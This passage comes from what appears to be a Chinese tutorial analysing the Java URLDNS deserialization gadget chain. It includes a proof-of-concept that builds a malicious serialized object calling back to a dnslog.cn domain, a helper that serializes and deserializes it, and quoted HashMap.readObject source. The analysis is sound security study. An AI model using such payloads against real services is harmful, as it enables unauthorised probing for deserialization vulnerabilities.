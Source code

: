 ​	
	        @Override
	        protected synchronized InetAddress getHostAddress(URL u) {
	            return null;
	        }
	    }
	
	    public static void main(String[] args) throws Exception {
	        Object object = getObject("http://aa32z3.dnslog.cn");
	        SerialUtil.runPayload(object);
	    }
	}

`SerialUtil.runPayload(object)` 的代码如下，就是将构造的恶意对象进行序列化和反序列化操作：

    public static void runPayload(Object object) throws Exception{
        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(outputStream);
        objectOutputStream.writeObject(object);
        objectOutputStream.close();
        System.out.println(outputStream);
        new ObjectInputStream(new ByteArrayInputStream(outputStream.toByteArray())).readObject();
    }

一些说明如下：

- 利用链中，实例化URL对象时，传入一个自定义的 `SilentURLStreamHandler` 类对象，目的为了防止未反序列化前，执行了 `getHostAddress()` 方法。自定义的 `SilentURLStreamHandler` 重写了 `getHostAddress()` 方法，始终返回null，也没进行DNS解析请求，所以反序列化之前，不会进行DNS解析。
- 测试URLDNS攻击链，需要传入的url必须是域名格式的，否则不解析。因为是域名解析嘛，所以肯定得域名，ip是不支持的。
- URL类中的handler属性，是transient标识的，不进行序列化。反序列化时，从context中获取handler，所以即使URL对象中的handler属性是我们自定义的一个 `SilentURLStreamHandler` 类对象，反序列化时仍能执行 `getHostAddress()` 方法。

调用栈如下所示：

![URLDNS调用栈][p5]

调用栈分析如下：

java.util.HashMap#readObject入下所示，末尾 `putVal(hash(key), key, value, false, false);` 调用了 `hash(key)` ：

    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);
    